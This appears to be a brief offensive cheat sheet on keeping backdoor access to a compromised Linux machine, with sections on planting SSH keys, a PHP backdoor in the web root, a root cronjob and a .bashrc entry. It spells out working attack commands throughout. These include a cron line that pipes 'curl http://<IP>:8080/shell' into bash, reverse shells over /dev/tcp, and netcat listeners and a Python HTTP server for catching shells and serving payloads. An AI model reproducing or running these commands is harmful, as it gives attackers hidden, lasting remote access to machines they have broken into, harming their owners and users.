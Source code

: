 					SSH BackDoor

- ssh-keygen                                   Generates ssh key
	- Leave public key                      	 Place '/home/.ssh'
	- chmod 600 id_rsa               	  Gives permissions
- ssh -i id_rsa user@ip                    Use BackDoor

<!-- -->
					PHP BackDoor
- setup netcat
- Location                                         /var/www/html 
    - BackDoor script

- Where to execute script:                https://ip/PHP-BackDoor.php
<!-- -->

					Cronjob BackDoor
- Add to Cronjob                              `* *     * * *   root    curl http://<IP>:8080/shell | bash `
   
- Add Script inside Cronjob            ``#!/bin/bash bash -i >& /dev/tcp/ip/port 8080>&1`

- Host HTTP server:                             `python3 -m http.server 8080`
- listen with netcat:			   `nc -nvlp <port>`

<!-- -->

					.bashrc
 --   If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
-- you dont know when the user will log in so always have netcat listening
    
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc

				Links
-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
